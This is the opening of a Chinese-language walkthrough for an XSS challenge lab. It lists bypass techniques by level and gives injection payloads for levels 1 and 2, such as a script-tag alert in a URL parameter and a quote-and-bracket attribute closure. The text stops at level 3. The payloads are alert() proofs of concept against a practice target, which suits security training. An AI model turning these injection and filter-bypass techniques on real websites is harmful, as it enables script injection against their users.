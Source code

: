 # XSS挑战-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**知识点**
- 无过滤 XSS (level 1)
- 各种难度的构造闭合 XSS (level 2、3、4、5、6)
- 各种难度的绕过过滤 XSS (level 2、3、4、5、6)
- 双写拼接 XSS (level 7)
- 实体编码+HTML 编码 XSS (level 8、9)
- input 中的 XSS (level 10)
- HTTP headers 头中的 XSS (level 11、12、13)
- exif XSS (level 14)
- angularjs XSS (level 15)
- URL 编码 XSS (level 16)
- embed 标签的 XSS (level 17、18)
- Flash XSS (level 19、20)

---

# level 1

没什么过滤,直接使用 `<script>alert(123)</script>` 即可

payload: `http://<靶机IP>/level1.php?keyword=test<script>alert(123)</script>`

---

# level 2

![images](../../../../../assets/img/安全/实验/Web/靶场/XSS/1.png)

使用 `">` 构造输入框的闭合

payload: `test"><script>alert(123)</script>`

---

# level 3

使用 `'` 可以闭合

![images](../../../../../assets/img/安全/实验/Web/靶场/XSS/2.png)
